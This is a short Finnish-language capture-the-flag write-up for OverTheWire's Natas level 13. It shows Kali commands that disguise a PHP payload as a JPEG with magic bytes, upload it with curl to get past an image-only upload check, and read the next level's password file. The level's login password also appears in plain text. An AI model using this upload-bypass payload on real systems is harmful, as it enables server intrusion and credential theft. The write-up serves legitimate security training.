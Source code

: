 ## Level 13 - 3 - Kali Linux - START HERE;

loin satunnaisen tiedoston nimen, mutta mentiin ohjeen mukaan kuitenkin

```
┌──(kali㉿kali)-[~/Desktop]
└─$ echo -e "\xFF\xD8\xFF\xE0" > image1.php

┌──(kali㉿kali)-[~/Desktop]
└─$ file image1.php  
image1.php: JPEG image data


append the PHP code
┌──(kali㉿kali)-[~/Desktop]
└─$ echo -n '<?php $p = file_get_contents("/etc/natas_webpass/natas14"); echo $p; ?>' >> image1.php 

┌──(kali㉿kali)-[~/Desktop]
└─$ file image1.php 
image1.php: JPEG image data

┌──(kali㉿kali)-[~/Desktop]
└─$ cat image1.php                                                                                                  
����
<?php $p = file_get_contents("/etc/natas_webpass/natas14"); echo $p; ?>                                                                                                                         
```

Pysytään yhä Kali linux desktopissa ja suoritettaan tämä prosessi viimeisenä, ja huomioina tiedoston nimi pitää olla tasalleen tarkka.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ curl -u natas13:trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC -F "MAX_FILE_SIZE=1000" -F "filename=image1.php" -F "uploadedfile=@./image1.php" http://natas13.natas.labs.overthewire.org
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas13", "pass": "trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC" };</script></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

The file <a href="upload/7801d4li7v.php">upload/7801d4li7v.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
